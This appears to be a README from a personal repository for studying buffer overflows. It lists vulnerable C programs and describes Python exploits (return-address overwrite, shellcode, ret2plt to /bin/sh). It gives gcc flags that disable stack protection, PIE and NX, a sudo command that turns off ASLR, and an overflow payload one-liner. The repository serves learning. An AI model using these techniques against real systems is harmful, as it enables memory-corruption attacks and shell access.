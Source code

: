 This repositry is for my studying vulnabilities.
I use some C programs which have vulnablilties and exploite code written in Python.

bof1.c : it has a BOF bug.
bof2.c : it has a BOF bug.

retaddr.py(bof1) : overwrite return address with function address
shellcode.py(bof1) : overwrite return address with address on which shellcode is put and run shellcode
ret2plt.py(bof2) : overwrite return address with system@plt and execute /bin/sh



----- my memo from here -----

retaddr.py require no SSP, no PIE 
shellcode.py no NX, no ASLR in addition to these 

gcc -m32 -fno-stack-protector -no-pie -z execstack -o bof1 bof1.c
gcc -m32 -fno-stack-protector -no-pie -o bof2 bof2.c

python -c "print('A'*44+'\x2c\x06\x00\x00')"


gcc compile options

32bit ELF : -m32
disable SSP : -fno-stack-protector
able SSP : -fstack-protector
disable NX bit :-z execstack
disable PIE :-no-pie

Disable ASLR : 
sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'
able ASLR : 
sudo bash -c 'echo 2 > /proc/sys/kernel/randomize_va_space'

python -c "print('A'*44+'\x2c\x06\x00\x00')"












